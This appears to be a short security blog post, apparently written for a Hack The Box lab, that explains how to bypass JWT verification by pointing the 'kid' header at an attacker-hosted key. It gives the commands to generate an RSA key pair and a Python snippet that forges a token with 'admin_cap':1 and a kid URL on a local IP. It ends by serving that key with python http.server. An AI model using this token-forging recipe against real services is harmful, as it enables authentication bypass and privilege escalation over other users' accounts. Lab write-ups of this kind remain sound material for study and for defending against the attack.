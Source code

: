 ```yaml
---
layout: post
title: "Bypassing JWT using remote KID"
keywords: "jwt, json, token, kid, web token"
---
```


> `"kid" (key ID)` is an optional header claim which holds a key identifier, particularly useful when you have multiple keys to sign the tokens and you need to look up the right one to verify the signature - [https://tools.ietf.org/html/rfc7515#section-4.1.4](https://tools.ietf.org/html/rfc7515#section-4.1.4)


#### First create a new private RSA Private Key

```
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
cat jwtRS256.key
cat jwtRS256.key.pub
```

#### Grab header and payload 
-> https://jwt.io/

#### Generate new token

```
private_key = ‘’'
-----BEGIN RSA PRIVATE KEY-----
88CVL/nFFPb+EcPpz9N2OTG4T8gAsYxgAU3q/Llt/NnXASm6CO4p82VXjaGz
-----END RSA PRIVATE KEY-----
‘’'
payload = {"username":"parity0x1","email":"parity0x1@htb.htb","admin_cap":1}
encoded = jwt.encode(payload, private_key, algorithm="RS256",headers={"kid":"http://10.10.14.100:8000/jwtRS256.key"})
print(encoded)
```

#### Replace cookie

#### Start local server
```
python3 -m http.server
```